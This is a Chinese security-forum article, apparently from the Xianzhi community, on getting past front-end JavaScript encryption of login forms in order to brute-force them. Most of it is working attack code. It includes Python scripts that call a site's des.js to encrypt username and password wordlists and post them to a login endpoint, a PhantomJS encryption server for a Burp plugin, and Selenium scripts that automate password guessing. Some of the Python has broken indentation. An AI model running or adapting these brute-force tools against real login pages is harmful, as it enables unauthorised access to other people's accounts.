










# 突破前端加密方法总结 - 先知社区

突破前端加密方法总结

- - -

# 0x00 执行加密的js文件生成加密内容

如 [https://yyy.xxx.com/assets/des/des.js](https://yyy.xxx.com/assets/des/des.js)

[](https://xzfile.aliyuncs.com/media/upload/picture/20200206155635-323cac9a-48b6-1.png)

对密码（123456）进行了前端加密传输。

[](https://xzfile.aliyuncs.com/media/upload/picture/20200206155749-5e71c8b8-48b6-1.png)

这里还需要从页面源代码找到加密方法的参数

[](https://xzfile.aliyuncs.com/media/upload/picture/20200206155833-789d33c6-48b6-1.png)

pip install PyExecJS

再安装PhantomJS（可选），或者用默认的js解析引擎也行。（execjs.get().name）

加密脚本：生成加密后的用户名和密码

```plain
#coding:utf-8
#from selenium import webdriver
import execjs


def mzDes(s,para):
    despara = execjs.get('phantomjs').compile(s).call("strEnc",para,"csc","mz","2017")
    return despara

with open('des.js','r') as mzCrypto:

    s = mzCrypto.read()
    with open('users.txt','r') as users:   #des username
        with open('des_users.txt','w') as f4DesUser:
            user = users.readlines()
            for u in user:
                uname = u.strip()
                print uname
                desUsername = mzDes(s,uname)
                print desUsername
                f4DesUser.write(desUsername+'\n')


    with open('pwdTop54.txt','r') as pwds:   #des password
        with open('des_pwds.txt','w') as f4DesPwd:
            pwd = pwds.readlines()
            for p in pwd:
                passwd = p.strip()
                print passwd
                desPassword = mzDes(s,passwd)
                print desPassword
                f4DesPwd.write(desPassword+'\n')
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20200206160018-b78c9ec8-48b6-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20200206160049-c9bb4bda-48b6-1.png)

这样就可以利用burpsuite/python脚本加载加密后的字典愉快的爆破啦。

py脚本爆破（单线程）：

```plain
#coding:utf-8
#from selenium import webdriver
import execjs
import requests
import re


successCount = 0


def mzDes(s,para):
    despara = execjs.get().compile(s).call("strEnc",para,"csc","mz","2017")
    return despara

with open('des.js','r') as mzCrypto:

        s = mzCrypto.read()
        with open('users.txt','r') as users:   #des username


        user = users.readlines()
        for u in user:
            with open('top50.txt','r') as pwds:   #des password
                    uname = u.strip()
                    print uname
                    desUsername = mzDes(s,uname)
                    print desUsername

                    pwd = pwds.readlines()
                    for p in pwd:
                        passwd = p.strip()
                        print passwd
                        desPassword = mzDes(s,passwd)
                        print desPassword


                        burp0_url = "https://yyy.xxx.com:443/login"
                        burp0_cookies = {"acw_tc": "2", "session.id": "5e"}
                        burp0_headers = {"User-Agent": "Mozilla/5.0 Firefox", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Content-Type": "application/x-www-form-urlencoded", "Origin": "https://yyy.xxx.com", "Connection": "close", "Referer": "https://yyy.xxx.com/login", "Upgrade-Insecure-Requests": "1"}
                        burp0_data = {"usernumber": "test", "username": desUsername, "password": desPassword, "geetest_challenge": "caaf52fec"}

                        rsp = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)

                        #print rsp.headers['content-length']
                        #if rsp.headers['content-length'] != 23862:
                        #   print 'success!!!'
                        print len(rsp.content)
                        if len(rsp.content) != 23862:
                        print 'success'
                        successCount = successCount + 1
                        pattern = re.compile(r'<p class="login-error" id="errorTips">(.*?)</p>')

                        bruteResult = pattern.search(rsp.text)
                        print bruteResult

print successCount
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20200206160200-f3f6ab2e-48b6-1.png)

如果遇到结合了动态因子（cookie或请求参数的某动态值）加密的，如key = substr(0,8,xsession)，就要根据实际情况写爆破脚本了。

# 0x01 burpsuite插件jsencrypt

安装phantomjs

[https://github.com/c0ny1/jsEncrypter](https://github.com/c0ny1/jsEncrypter)

用法参考readme

编写对应的jsEncrypter\_des.js

```plain
var webserver = require('webserver');
server = webserver.create();

var host = '127.0.0.1';
var port = '1664';

// 加载实现加密算法的js脚本
var wasSuccessful = phantom.injectJs('des.js');/*引入实现加密的js文件*/

// 处理函数
function js_encrypt(payload){
    var newpayload;
    /**********在这里编写调用加密函数进行加密的代码************/
    //var b = new Base64();
    newpayload = strEnc(payload,"key","para0","para1");
    /**********************************************************/
    return newpayload;
}

if(wasSuccessful){
    console.log("[*] load js successful");
    console.log("[!] ^_^");
    console.log("[*] jsEncrypterJS start!");
    console.log("[+] address: http://"+host+":"+port);
}else{
    console.log('[*] load js fail!');
}

var service = server.listen(host+':'+port,function(request, response){
    try{
        if(request.method == 'POST'){
            var payload = request.post['payload'];
            var encrypt_payload = js_encrypt(payload); 
            console.log('[+] ' + payload + ':' + encrypt_payload);
            response.statusCode = 200;
            response.write(encrypt_payload.toString());
            response.close();
        }else{
              response.statusCode = 200;
              response.write("^_^\n\rhello jsEncrypter!");
              response.close();
        }
    }catch(e){
        console.log('\n-----------------Error Info--------------------')
        var fullMessage = "Message: "+e.toString() + ':'+ e.line;
        for (var p in e) {
            fullMessage += "\n" + p.toUpperCase() + ": " + e[p];
        } 
        console.log(fullMessage);
        console.log('---------------------------------------------')
        console.log('[*] phantomJS exit!')
        phantom.exit();
    }   
});
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20200206160354-384fe178-48b7-1.png)

# 0x02 理解js加密算法

如md5/sha1，直接写py脚本即可，复杂一点的就要调试js了

[](https://xzfile.aliyuncs.com/media/upload/picture/20200206160451-59fedfc2-48b7-1.png)

burpsuite的intruder模块自带了很多加密的选项可以直接用

[](https://xzfile.aliyuncs.com/media/upload/picture/20200206160522-6c5f8a22-48b7-1.png)

# 0x03 浏览器自动化爆破

安装selenium  
安装浏览器驱动，加入环境变量。

```plain
#coding:utf-8


import time
import sys
from selenium import webdriver

reload(sys) 
sys.setdefaultencoding('utf-8')


def BruteLogin(user,pwd):


        browser.get('http://xxx.cn/manage/login.aspx')
        browser.implicitly_wait(7)
        elem = browser.find_element_by_name("name")
        elem.send_keys(user)
        elem=browser.find_element_by_name("pws")
        elem.send_keys(pwd)

        elem=browser.find_element_by_id("submit")
        #print browser.current_window_handle
        elem.click()

        time.sleep(1)
        if '当前用户' in browser.page_source:

            print 'Login Success:' + user + '|' + pwd
            sys.exit()
        else:
            print 'LoginFaild!'


browser = webdriver.Chrome()


def main():

    with open('usernameTop500.txt','r') as fuser:
            for user in fuser.readlines():
                    u = user.strip()
                    with open('topwdglobal.txt','r') as fpwd:
                        for pwd in fpwd.readlines():
                                p = pwd.strip()
                                print 'testing...' + u,p
                                BruteLogin(u,p)

    browser.quit()


if __name__ == '__main__':
    main()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20200206160621-8faa03e0-48b7-1.gif)

如果有些元素不能直接定位，就尝试用autochain，如：

```plain
#coding:utf-8
#Author:LSA
#Descript:selenium for brute
#Data:201812


import time
import sys
from selenium import webdriver
from selenium.webdriver.common import action_chains, keys
import time

reload(sys) 
sys.setdefaultencoding('utf-8')


def BruteLogin(user,pwd):


        browser.get('http://xxx.edu.cn/login.jsp')
        browser.implicitly_wait(20)

        action = action_chains.ActionChains(browser)

        elem = browser.find_element_by_name("j_username")
        elem.send_keys(user)

        action.perform()

        elem=browser.find_element_by_name("j_password")
        elem.send_keys(pwd)

        action.perform()

        elem=browser.find_element_by_name("btn_submit")
        #print browser.current_window_handle
        #elem.click()

        action.send_keys("document.getElementsByName('btn_submit')[0].click()"+keys.Keys.ENTER)
        action.perform()

        time.sleep(1)
        if '当前用户' in browser.page_source:

            print 'Login Success:' + user + '|' + pwd
            sys.exit()
        else:
            print 'LoginFaild!'


browser = webdriver.Chrome()


def main():

    with open('usernameTop500.txt','r') as fuser:
            for user in fuser.readlines():
                    u = user.strip()
                    with open('topwdglobal.txt','r') as fpwd:
                        for pwd in fpwd.readlines():
                            p = pwd.strip()
                            print 'testing...' + u,p
                            BruteLogin(u,p)

    browser.quit()


if __name__ == '__main__':
    main()
```

# 0x04 misc

1.  中间服务器：自己搭一个服务及作为中继进行加密再发给目标服务器，较麻烦。
2.  断点调试js修改参数
3.  fiddler替换js

可视具体情况使用。

//预览看到代码缩进没了，全部py脚本打包到附件了

brute-encryption.zip (0.003 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20200206161837-4690f6bc-48b9-1.zip)
